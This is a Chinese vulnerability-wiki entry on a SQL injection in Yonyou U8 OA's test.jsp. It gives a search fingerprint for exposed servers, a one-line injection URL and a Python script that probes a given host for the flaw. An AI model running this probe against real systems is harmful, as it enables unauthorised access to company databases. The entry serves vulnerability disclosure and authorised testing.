


# 用友U8 OA test.jsp SQL 注入

## 条目说明

- 对象与具体问题：用友U8 OA；test.jsp SQLi
- 版本、配置及部署条件：未知
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同113代码/根因描述，别当两个漏洞；应OA类别不是GRP-U8
- 与致远test.jsp共享文件为关联，保留产品部署差异
- MD5正确但title提示ip.txt与实际单URL不一致；补版本/修复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

### 漏洞影响

```
用友 U8 OA
```

### 网络测绘

```
"用友U8-OA"
```

### 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA A6 test.jsp SQL注入漏洞.html)

登录页面如下


POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```




利用方法与致远OA 的SQL注入类似

### 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
